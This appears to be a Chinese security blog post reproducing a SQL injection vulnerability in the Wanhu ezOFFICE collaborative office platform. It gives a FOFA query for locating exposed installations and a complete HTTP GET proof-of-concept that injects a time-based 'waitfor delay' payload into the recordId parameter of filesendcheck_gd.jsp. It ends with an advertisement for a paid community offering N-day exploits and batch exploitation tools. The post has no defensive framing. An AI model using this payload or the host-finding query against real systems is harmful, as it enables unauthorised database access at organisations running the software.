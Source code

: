 #  万户协同办公平台ezoffice filesendcheck_gd SQL注入漏洞复现及POC   
原创 CatalyzeSec  CatalyzeSec   2024-09-14 14:25  
  
**FOFA**  
```
"Ezoffice"
```  
  
**POC**  
```
GET /defaultroot/modules/govoffice/gov_documentmanager/filesendcheck_gd.jsp;.js?recordId=1;waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```  
  
**漏洞复现**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0yn205ib8KpL7ibW7bd8WrPgticichrVwtPn1aic9eC4FxDF3Zmgb4yGvp2e6BCcAU5863UQMMjGOW9FIibg/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0yn205ib8KpL7ibW7bd8WrPgticS9Jcj94gZVM2DB52POpI8UGoPROzvIE2TAzIgFYL6Gq839d84169ibA/640?wx_fmt=png&from=appmsg "")  
  
**nuclei运行结果**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0yn205ib8KpL7ibW7bd8WrPgticL9puAyVYyfl8XRMtCzNm09FllrnfNmmQNPc48GfHNZEGsrklP8ERoQ/640?wx_fmt=other&from=appmsg "")  
  
**nuclei-poc已上传到知识星球**  
  
  
高质量安全知识星球社区，致力于漏洞挖掘，渗透技巧，安全资料，星球承诺会持续更新0/1/NDay及对应的批量利用工具，团队内部漏洞库，内外网攻防技巧，你所需要的各类安全工具和资料以及团队师傅们最新的学习研究成果。分享行业内最新动态，解答交流各类技术问题。  
涉及方向包括Web渗透、免杀绕过、红蓝攻防、代码审计、应急响应、安全培训、CTF、小白入门、职业规划和疑难解答。**CatalyzeSec**  
，安全技术水平的催化者，星球针对成员的技术问题，快速提供思考方向及解决方案，并为星友提供多种方向的学习资料、安全工具、POC&EXP以及各种学习笔记等，以引导者和催化剂的方式助力安全技术水平的提升。  
我们是一个快速成长的team，团队的发展方向与每一位星友的学习方向密切相关，加入我们，一起成为更好的自己！  
PS：随着星球内知识的积累，人员的增加，  
星球价格也会随之增加，前一百位加入我们的师傅可享受99元朋友价！  
  
**团队内部独家知识库**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0yn205ib8KpL7ibW7bd8WrPgticVsgRKuppOArzJD8HqpGzyDB6ribs1eFh2HDZrv2YOiaWHuTJ3QHIFZ3w/640?wx_fmt=other&from=appmsg "")  
  

